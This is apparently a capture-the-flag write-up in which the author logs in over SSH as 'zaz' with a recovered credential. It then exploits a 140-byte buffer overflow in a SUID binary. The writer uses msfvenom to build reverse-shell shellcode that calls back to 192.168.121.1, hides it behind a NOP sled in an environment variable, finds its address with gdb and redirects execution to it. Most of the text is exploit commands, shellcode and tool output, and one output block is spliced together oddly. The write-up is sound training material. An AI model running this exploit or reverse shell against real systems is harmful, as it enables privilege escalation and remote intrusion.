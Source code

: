 We ssh as zaz with the password we got from the writeup 2

```
zaz : 646da671ca01bb5d84dbb5fb2238dc8e
```

![](../Images/Pasted%20image%2020240806220442.png)

In the second writeup, we found an offset of 140 chunck
We'll reuse this offset and store a payload in the environment variables
We'll use gdb to find the address of this variable and replace the ret2libc by it in order to trigger a reverse shell

The previous exploit was
```
❯ python3
>>> from pwn import *
>>> print(140 * b"A"+pack(0xb7e6b060)+pack(0xb7e5ebe0)+pack(0xb7f8cc58))
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`\xb0\xe6\xb7\xe0\xeb\xe5\xb7X\xcc\xf8\xb7'
```

Let's create the other payload with msfvenom

```
❯ msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.121.1 LPORT=8877 -f py –e x86/shikata_ga_nai -b "\x00\x0a\x1a\x2f\x95\xa7"
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95export EVIL=`python -c 'print "\x90" * 525 +  "\xbd\x56\x57\x8c\x14\xdb\xdb\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1\x13\x31\x6a\x15\x03\x6a\x15\x83\xc2\x04\xe2\xa3\x66\x57\x7e\x5c\xd1\xaa\xff\x53\x3a\xc3\xe3\xc0\xff\x7f\x8e\xe4\x76\x9e\xfe\x8e\x45\xe1\x6c\x17\xe6\xdd\x5f\x27\x4f\x5b\x99\x4f\x90\x33\x20\x8e\x78\x46\xd3\xb2\xd5\xcf\x32\x02\x43\x80\xe5\x31\x3f\x23\x8f\x54\xf2\xa4\xdd\xfe\x63\x8a\x92\x96\x13\xfb\x7b\x04\x8d\x8a\x67\x9a\x1e\x04\x86\xaa\xaa\xdb\xc9"'`
Payload size: 95 bytes
Final size of py file: 479 bytes
buf =  b""
buf += b"\xbe\xbd\x5e\x33\xdd\xda\xdf\xd9\x74\x24\xf4\x5b"
buf += b"\x29\xc9\xb1\x12\x31\x73\x12\x83\xc3\x04\x03\xce"
buf += b"\x50\xd1\x28\x01\xb6\xe2\x30\x32\x0b\x5e\xdd\xb6"
buf += b"\x02\x81\x91\xd0\xd9\xc2\x41\x45\x52\xfd\xa8\xf5"
buf += b"\xdb\x7b\xca\x9d\x1b\xd3\x55\x5c\xf4\x26\xa6\x7c"
buf += b"\xa9\xae\x47\x30\xd7\xe0\xd6\x63\xab\x02\x50\x62"
buf += b"\x06\x84\x30\x0c\xf7\xaa\xc7\xa4\x6f\x9a\x08\x56"
buf += b"\x19\x6d\xb5\xc4\x8a\xe4\xdb\x58\x27\x3a\x9b"
```

```
"\xbe\xbd\x5e\x33\xdd\xda\xdf\xd9\x74\x24\xf4\x5b\x29\xc9\xb1\x12\x31\x73\x12\x83\xc3\x04\x03\xce\x50\xd1\x28\x01\xb6\xe2\x30\x32\x0b\x5e\xdd\xb6\x02\x81\x91\xd0\xd9\xc2\x41\x45\x52\xfd\xa8\xf5\xdb\x7b\xca\x9d\x1b\xd3\x55\x5c\xf4\x26\xa6\x7c\xa9\xae\x47\x30\xd7\xe0\xd6\x63\xab\x02\x50\x62\x06\x84\x30\x0c\xf7\xaa\xc7\xa4\x6f\x9a\x08\x56\x19\x6d\xb5\xc4\x8a\xe4\xdb\x58\x27\x3a\x9b"
```

```
export EVIL=`python -c 'print "\x90" * 525 + "\xbe\xbd\x5e\x33\xdd\xda\xdf\xd9\x74\x24\xf4\x5b\x29\xc9\xb1\x12\x31\x73\x12\x83\xc3\x04\x03\xce\x50\xd1\x28\x01\xb6\xe2\x30\x32\x0b\x5e\xdd\xb6\x02\x81\x91\xd0\xd9\xc2\x41\x45\x52\xfd\xa8\xf5\xdb\x7b\xca\x9d\x1b\xd3\x55\x5c\xf4\x26\xa6\x7c\xa9\xae\x47\x30\xd7\xe0\xd6\x63\xab\x02\x50\x62\x06\x84\x30\x0c\xf7\xaa\xc7\xa4\x6f\x9a\x08\x56\x19\x6d\xb5\xc4\x8a\xe4\xdb\x58\x27\x3a\x9b"'`
```

![](../Images/Pasted%20image%2020240806222428.png)

```
b *main
r
x/s *((char **)environ+3)
```

![](../Images/Pasted%20image%2020240806230328.png)

This command shows us the EVIL env variable

We'll see how this variable takes the memory
```
x/150xg 0xbffff425
```

We see our nop field, we just have to choose one of its addresses to replace the ret2libc

```
./exploit_me $(python -c 'print "i"*140 + "\x3f\xf7\xff\xbf"')
```

![](../Images/Pasted%20image%2020240806223416.png)

The reverse shell worked but it didn't take the SUID

We'll craft the same payload again but with `PrepenSetuid=True`, which will keep the SUID

```
❯ msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.121.1 LPORT=8877 -f py –e x86/shikata_ga_nai -b "\x00\x0a\x1a\x2f\x95\xa7" PrependSetuid=True
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 102 (iteration=0)
x86/shikata_ga_nai chosen with final size 102
Payload size: 102 bytes
Final size of py file: 518 bytes
buf =  b""
buf += b"\xbd\x56\x57\x8c\x14\xdb\xdb\xd9\x74\x24\xf4\x5a"
buf += b"\x2b\xc9\xb1\x13\x31\x6a\x15\x03\x6a\x15\x83\xc2"
buf += b"\x04\xe2\xa3\x66\x57\x7e\x5c\xd1\xaa\xff\x53\x3a"
buf += b"\xc3\xe3\xc0\xff\x7f\x8e\xe4\x76\x9e\xfe\x8e\x45"
buf += b"\xe1\x6c\x17\xe6\xdd\x5f\x27\x4f\x5b\x99\x4f\x90"
buf += b"\x33\x20\x8e\x78\x46\xd3\xb2\xd5\xcf\x32\x02\x43"
buf += b"\x80\xe5\x31\x3f\x23\x8f\x54\xf2\xa4\xdd\xfe\x63"
buf += b"\x8a\x92\x96\x13\xfb\x7b\x04\x8d\x8a\x67\x9a\x1e"
buf += b"\x04\x86\xaa\xaa\xdb\xc9"

export EVIL=`python -c 'print "\x90" * 525 +  "\xbd\x56\x57\x8c\x14\xdb\xdb\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1\x13\x31\x6a\x15\x03\x6a\x15\x83\xc2\x04\xe2\xa3\x66\x57\x7e\x5c\xd1\xaa\xff\x53\x3a\xc3\xe3\xc0\xff\x7f\x8e\xe4\x76\x9e\xfe\x8e\x45\xe1\x6c\x17\xe6\xdd\x5f\x27\x4f\x5b\x99\x4f\x90\x33\x20\x8e\x78\x46\xd3\xb2\xd5\xcf\x32\x02\x43\x80\xe5\x31\x3f\x23\x8f\x54\xf2\xa4\xdd\xfe\x63\x8a\x92\x96\x13\xfb\x7b\x04\x8d\x8a\x67\x9a\x1e\x04\x86\xaa\xaa\xdb\xc9"'`
```

![](../Images/Pasted%20image%2020240806231545.png)